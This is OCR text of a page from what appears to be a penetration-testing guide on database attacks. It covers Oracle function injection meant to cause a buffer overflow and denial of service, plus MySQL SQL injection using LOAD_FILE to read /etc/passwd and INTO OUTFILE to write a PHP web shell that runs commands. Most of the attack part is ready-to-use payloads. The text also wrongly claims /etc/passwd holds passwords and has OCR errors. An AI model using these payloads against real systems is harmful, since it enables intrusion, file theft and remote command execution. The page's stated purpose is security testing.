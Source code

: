 - TZ_OFFSET

* TO_TIMESTAMP_1Z

- BFILENAME

- FROM_TZ

- NUMTOYMINTERVAL

- NUMTODSINTERVAL

  

You can make use of these functions to carry out a buffer overflow attack using the function injection method. You must try to disconnect database connections and perform a DOS attack through this vulnerability. You must try to achieve remote access to the operating system through buffer overflow.

The functionality of FROM_TZ is to convert a TIMESTAMP value to a TIMESTAMP WITH TIME ZONE value. The standard form of providing input to this function is as follows.

```
SELECT FROM_TZ (TIMESTAMP '2018-01-20 18:00:00', '14:00') FROM DUAL;
```

Use the following statement as an example to perform buffer overflow attack:

```
SELECT FROM_TZ (TIMESTAMP ‘2018-01-20 18:00:00',
'xoxoxoxoxoxoxoxoxoxoxoxoxoxoxoxoxoxoxoxoxoxoxoxoxo') FROM DUAL;
```

### Access System Files and Execute Remote Commands

- Use the **LOAD_FILE()** function within MySQL to read and return the contents of a file located on the MySAL server
- Use the **INTO OUTFILE()** function in MySQL. to run a query, and dump the results into a file

The attackers try to access the system files and execute remote commands on the target web application database using MYSQL queries, such as LOAD_FILE () and INTO OUTFILE (). The LOAD_FILE () function reads and returns the contents of a file from the MySQL server. The INTO OUTFILE () function runs a query and dumps the results into the specified file.
You must check if the MYSQL server of target web application is vulnerable to these functions.

- Test for LOAD_FILE():
  You must test the LOAD_FILE() function on the database using the following ways:
  Add the following query after the URL of target web application to see if it can return the file information.

  ```
  NULL UNION ALL SELECT LOAD_FILE('/etc/passwd') /*
  ```

  If successful, the injection will display the contents of the passwd file, which contains passwords to the server.

- Test for INTO OUTFILE():
    You need to try the INTO OUTFILE() function on the database by adding the following query to the web application URL as shown:

  ```
  NULL UNION ALL SELECT NULL,NULL,NULL,NULL, '<?php
  system($_GET["command"]); ?>' INTO OUTFILE
  '/var/www/example.com/shell.php'/*
  ```
